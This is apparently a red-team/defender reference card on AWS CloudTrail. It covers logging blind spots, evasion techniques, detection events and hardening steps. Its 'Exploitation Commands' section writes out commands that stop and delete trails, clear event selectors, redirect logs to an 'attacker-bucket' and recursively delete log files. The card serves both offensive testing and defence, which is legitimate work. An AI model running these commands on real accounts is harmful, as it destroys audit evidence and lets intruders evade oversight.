

#  AWS CloudTrail Security



> **Category**: AUDIT LOGGING

CloudTrail records AWS API calls for auditing. Understanding CloudTrail is critical for both attackers (evasion) and defenders (detection). Every red teamer must know what gets logged.

## Quick Stats

| For Evasion | Event History | Log Storage | Log Delay |
| --- | --- | --- | --- |
| **CRITICAL** | **90 Days** | **S3** | **~5 min** |

## Service Overview

### Management Events

Control plane operations: CreateBucket, RunInstances, AttachRolePolicy. Logged by default in all trails. These are the API calls that modify resources.

> Coverage: ~98% of AWS API calls logged, but some read-only calls may not appear in Event History

### Data Events

Data plane operations: S3 GetObject/PutObject, Lambda Invoke, DynamoDB GetItem. NOT logged by default - must be explicitly enabled. High volume = high cost.

> Red Team Note: Data events often disabled due to cost - S3 object access may be invisible

## Security Risk Assessment

`█████████░` **8.5/10** (CRITICAL)

CloudTrail misconfiguration or tampering enables attackers to operate undetected. Trail deletion, log manipulation, and exploiting blind spots are key evasion techniques.

## ⚔️ Attack Vectors

### Trail Manipulation

- Delete or stop CloudTrail trails
- Modify event selectors to exclude activities
- Change S3 bucket to attacker-controlled
- Disable log file validation
- Delete logs from S3 bucket

### Evasion Techniques

- Use regions without active trails
- Exploit data event blind spots
- Time attacks during log delivery delay
- Use non-logged API actions
- Abuse read-only operations

## 👁️ Blind Spots

### NOT Logged by Default

- S3 object-level operations (GetObject, PutObject)
- Lambda function invocations
- DynamoDB item-level operations
- EBS direct API calls
- Cognito user pool data operations

### Never Logged

- IMDS calls from EC2 instances
- S3 pre-signed URL access
- CloudFront signed URL access
- Internal AWS service-to-service calls
- Some read-only describe/list calls

## 🔍 Enumeration

**List All Trails**
```bash
aws cloudtrail describe-trails
```

**Get Trail Status**
```bash
aws cloudtrail get-trail-status --name my-trail
```

**Get Event Selectors**
```bash
aws cloudtrail get-event-selectors --trail-name my-trail
```

**Check Insight Selectors**
```bash
aws cloudtrail get-insight-selectors --trail-name my-trail
```

**Lookup Recent Events**
```bash
aws cloudtrail lookup-events --max-results 10
```

## 🔧 Trail Tampering

### Disable Logging

- StopLogging - pause trail temporarily
- DeleteTrail - remove trail entirely
- UpdateTrail - change destination bucket
- PutEventSelectors - exclude event types
- Remove S3 bucket policy permissions

### Log Deletion

- Delete log files from S3 directly
- Modify S3 lifecycle rules for quick expiry
- Disable log file integrity validation
- Change CloudWatch Logs destination
- Disable SNS notifications

> **Warning:** Trail tampering itself is logged. Sophisticated attackers prefer exploiting blind spots over modifying trails.

## 🌍 Regional Evasion

### Multi-Region Gaps

- Check if trail is multi-region or single-region
- Operate in regions without active trails
- Global services log to us-east-1 only
- Some regions may have logging disabled
- Organization trails vs account trails

### Timing Attacks

- Logs delivered every ~5 minutes
- Event History has 90-day limit
- Rapid operations may batch together
- Delete and recreate within delivery window
- Race condition with security automation

## 🛡️ Detection

### Critical Events to Monitor

- StopLogging - trail stopped
- DeleteTrail - trail deleted
- UpdateTrail - configuration changed
- PutEventSelectors - selectors modified
- DeleteBucket on trail S3 bucket

### Indicators of Compromise

- Trail logging stopped unexpectedly
- Event selectors reduced in scope
- S3 bucket policy modified
- Log files deleted from bucket
- New trail created to shadow org trail

## Exploitation Commands

**Stop Trail Logging**
```bash
aws cloudtrail stop-logging --name my-trail
```

**Delete Trail**
```bash
aws cloudtrail delete-trail --name my-trail
```

**Disable Data Events**
```bash
aws cloudtrail put-event-selectors \\
  --trail-name my-trail \\
  --event-selectors '[]'
```

**Change Trail S3 Bucket**
```bash
aws cloudtrail update-trail \\
  --name my-trail \\
  --s3-bucket-name attacker-bucket
```

**Delete Logs from S3**
```bash
aws s3 rm s3://cloudtrail-logs/AWSLogs/ \\
  --recursive
```

**Find Unmonitored Regions**
```bash
for region in $(aws ec2 describe-regions --query 'Regions[].RegionName' --output text); do
  echo "=== $region ==="
  aws cloudtrail describe-trails --region $region
done
```

## Policy Examples

### ❌ Overly Permissive - Can Disable Logging

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "cloudtrail:*",
    "Resource": "*"
  }]
}
```

*Full CloudTrail access allows stopping trails and deleting logs*

### ✅ Read-Only CloudTrail Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "cloudtrail:Describe*",
      "cloudtrail:Get*",
      "cloudtrail:List*",
      "cloudtrail:LookupEvents"
    ],
    "Resource": "*"
  }]
}
```

*Read-only access for security monitoring without modification rights*

### ❌ S3 Bucket Policy - No Protection

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:root"},
    "Action": "s3:*",
    "Resource": "arn:aws:s3:::cloudtrail-logs/*"
  }]
}
```

*Root account can delete logs - no object lock or versioning*

### ✅ Protected S3 Bucket with Object Lock

```json
# Enable Object Lock on bucket creation
aws s3api create-bucket --bucket cloudtrail-logs \\
  --object-lock-enabled-for-bucket

# Set retention policy
aws s3api put-object-lock-configuration \\
  --bucket cloudtrail-logs \\
  --object-lock-configuration '{
    "Rule": {"DefaultRetention": {
      "Mode": "GOVERNANCE", "Days": 365
    }}
  }'
```

*Object Lock prevents log deletion even by root account*

## Defense Recommendations

### 🌍 Enable Multi-Region Trail

Ensure trail covers all regions including future ones.

```bash
aws cloudtrail update-trail \\
  --name org-trail \\
  --is-multi-region-trail
```

### 🔒 Enable Log File Validation

Detect tampering with digest files that verify log integrity.

```bash
aws cloudtrail update-trail \\
  --name org-trail \\
  --enable-log-file-validation
```

### 📦 Enable S3 Object Lock

Prevent log deletion with WORM (Write Once Read Many) protection.

### 🔔 CloudWatch Alarms for Trail Changes

Alert on StopLogging, DeleteTrail, and UpdateTrail events.

```bash
# CloudWatch metric filter for trail stops
aws logs put-metric-filter \\
  --log-group-name CloudTrail/Logs \\
  --filter-name TrailStopped \\
  --filter-pattern '{ $.eventName = "StopLogging" }'
```

### 🏢 Use Organization Trail

Organization-level trail that member accounts cannot modify.

### 📊 Enable Data Events

Log S3 object access and Lambda invocations for sensitive resources.

```bash
aws cloudtrail put-event-selectors \\
  --trail-name my-trail \\
  --event-selectors '[{
    "DataResources": [{
      "Type": "AWS::S3::Object",
      "Values": ["arn:aws:s3:::sensitive-bucket/"]
    }]
  }]'
```

---

*AWS CloudTrail Security Card*

*Always obtain proper authorization before testing*
